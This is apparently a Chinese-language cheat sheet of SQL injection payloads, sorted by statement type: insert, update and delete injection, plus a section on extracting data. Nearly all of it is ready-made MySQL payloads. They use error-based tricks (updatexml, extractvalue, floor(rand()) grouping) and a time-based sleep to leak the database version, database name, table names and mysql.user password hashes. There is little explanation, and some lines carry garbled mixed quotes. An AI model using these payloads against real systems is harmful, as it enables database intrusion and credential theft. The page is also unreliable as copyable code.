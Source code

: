 	算法：字频统计
		二分查找，位运算法
###二次注入

###按查询语句分类注入
	insert注入
		报错注入：
			insert into test.user (id,user,pwd) values (10,’user’,'pass’ and 1=(updatexml(1,concat(0x5e24,(select password from mysql.user limit 1),0x5e24),1)));
			INSERT INTO users (id, username, password) VALUES (2,'Olivia' or updatexml(1,concat(0x7e,(version())),0) or'', 'Nervo');
			
			insert into user (user,password) values(‘inject’,'xss’ and extractvalue(1, concat(0x5c,(select password from mysql.user limit 1))));
			INSERT INTO users (id, username, password) VALUES (2,'Olivia' or extractvalue(1,concat(0x7e,database())) or'', 'Nervo');
			
			INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT concat(0x7e,0x27,cast(database() as char),0x27,		0x7e)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a) or'', 'Nervo');
			
			insert into users values (17,'james', 'bond'|conv(hex(substr(user(),1 + (n-1) * 8, 8* n)),16, 10);

		延时注入
			insert into test.user (id,user,pwd) values (11,’user’,'pass’ and (select if(mid(user(),1,1)=’r',sleep(5),0)));
	updata注入
		UPDATE users SET password='Nicky' or updatexml(2,concat(0x7e,(version())),0) or'' WHERE id=2 and username='Olivia';
		UPDATE users SET password='Nicky' or extractvalue(1,concat(0x7e,database())) or'' WHERE id=2 and username='Nervo';
		UPDATE users SET password='Nicky' or (SELECT 1 FROM(SELECT count(*),concat((SELECT(SELECT concat(0x7e,0x27,cast(database() as char),0x27,0x7e)) FROM information_schema.		tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a)or'' WHERE id=2 and username='Nervo';
		
		select conv(hex(substr((select table_name from information_schema.tables where table_schema=schema() limit 0,1),1 + (n-1) * 8, 8*n)), 16, 10);
	union注入
		union select
	delete注入
		DELETE FROM users WHERE id=2 or updatexml(1,concat(0x7e,(version())),0) or'';
		DELETE FROM users WHERE id=1 or extractvalue(1,concat(0x7e,database())) or'';
		DELETE FROM users WHERE id=1 or (SELECT 1 FROM(SELECT count(*),concat((SELECT(SELECT concat(0x7e,0x27,cast(database() as char),0x27,0x7e)) FROM information_schema.tables 		limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a)or'' ;
	
	提取数据payload
		INSERT INTO users (id, username, password) VALUES (2,'Olivia' or updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0) or'', 'Nervo');
		
		INSERT INTO users (id, username, password) VALUES (2,'Olivia' or extractvalue(1,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 1,1))) or'', 'Nervo');
		
